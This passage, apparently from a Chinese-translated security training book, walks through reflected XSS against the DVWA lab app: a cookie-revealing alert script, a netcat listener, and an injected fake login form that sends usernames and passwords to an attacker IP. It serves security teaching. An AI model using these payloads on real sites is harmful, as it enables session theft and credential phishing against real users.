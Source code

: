 在此场景中，我们将执行反射 XSS 攻击。在此攻击中，我们将向 web 应用发送请求，迫使它显示一些敏感信息。我们将执行以下攻击：

1.  登录到 DVWA 并单击 XSS。此页面的默认操作是简单地`echo`输入到字段中的任何输入。因此，我们将尝试强制应用向我们提供`cookie`和`PHPSESSID`等信息。

2.  你叫什么名字？字段中，我们将输入一个简单的脚本，该脚本将为我们提供我们正在寻找的`cookie`和`PHPSESSID`数据。输入以下命令：

```
<script>alert(document.cookie);</script>
```

在这个脚本中，我们告诉 web 应用通过提供一个弹出窗口来**提醒**我们。这里我们调用`document.cookie`，它将提供当前的`cookie`和`PHPSESSID`值。注意产出；我们现在有了我们所追求的`cookie`和`PHPSESSID`值：

![](img/1f023b4e-9cb3-49bb-93f6-4ceba811090b.png)

图 15：使用反射 XSS 提供敏感数据

现在我们已经获得了所有必需的详细信息，我们将尝试向该页面中插入一个表单，以诱骗用户输入他们的凭据。我们还将强制 web 应用将输出发送到其他位置，而不是在屏幕上弹出：

1.  在 Kali Linux 中打开终端窗口。我们将使用`nc -lvp 80`命令在端口`80`上创建一个`netcat`简单 web 服务器。在这个命令中，我们使用`nc`命令启动`netcat`。`-l`开关用于启用监听模式，`v`用于详细输出，`p`定义我们将监听的端口号。执行命令后，`netcat`将侦听连接。

2.  使用相同的 XSS 反射页面，输入以下脚本：

```
<h3>Please login to proceed</h3> <form action=http://192.168.34.153>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```
